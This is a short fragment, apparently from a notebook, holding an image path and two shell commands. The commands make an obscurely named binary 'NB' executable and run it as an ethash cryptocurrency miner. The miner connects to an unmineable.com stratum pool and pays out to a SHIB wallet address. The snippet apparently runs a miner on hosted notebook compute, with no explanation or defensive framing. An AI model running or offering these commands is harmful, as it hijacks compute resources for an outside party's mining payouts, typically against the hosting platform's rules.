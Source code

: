 ! chmod +rwx NB
! ./NB -a ethash -o stratum+tcp://ethash.unmineable.com:3333 -u SHIB:0x6e890745813facaeab2afab23440a04f6b55034a.GPU-1#fg38-pfgk
